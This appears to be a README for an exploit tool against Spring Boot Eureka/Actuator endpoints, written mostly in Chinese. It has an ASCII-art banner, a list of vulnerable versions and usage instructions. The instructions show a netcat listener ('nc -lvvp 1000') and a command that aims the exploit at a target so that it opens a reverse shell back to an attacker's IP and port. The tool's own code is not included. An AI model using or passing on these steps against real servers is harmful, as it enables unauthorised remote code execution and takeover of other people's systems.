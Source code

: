 ## Spring Boot eureka exp
```
 ___ _ __  _ __(_)_ __   __ _        _____  ___ __
/ __| '_ \| '__| | '_ \ / _` |_____ / _ \ \/ / '_ \
\__ \ |_) | |  | | | | | (_| |_____|  __/>  <| |_) |
|___/ .__/|_|  |_|_| |_|\__, |      \___/_/\_\ .__/
    |_|                 |___/                |_|
-------Spring Boot 2.x 无法利用成功---------
-------Spring Boot 1.5.x 在使用 Dalston 版本时可利用成功，使用 Edgware 无法成功--------
-------Spring Boot <= 1.4 可利用成功---------------
                          --by tea0 
``` 
## update 
目前 版本还存在问题，但是可利用，利用payload是采用反弹shell

代码写的有点垃圾，大佬勿喷！新手上路，后续代码会优化

## help
检测：
```angular2
python spring_boot_exp.py -u http://127.0.0.1:8090
```

利用：
```angular2
 监听端口
 nc -lvvp 1000
 python spring_boot_exp.py -u http://127.0.0.1:8090 -exp xx.x.xx.x -p 1000
```

## 参考资料 
Spring Boot Actuator未授权访问【XXE、RCE】单/多目标检测
* https://github.com/rabbitmask/SB-Actuator

小米安全

* https://www.anquanke.com/post/id/195929
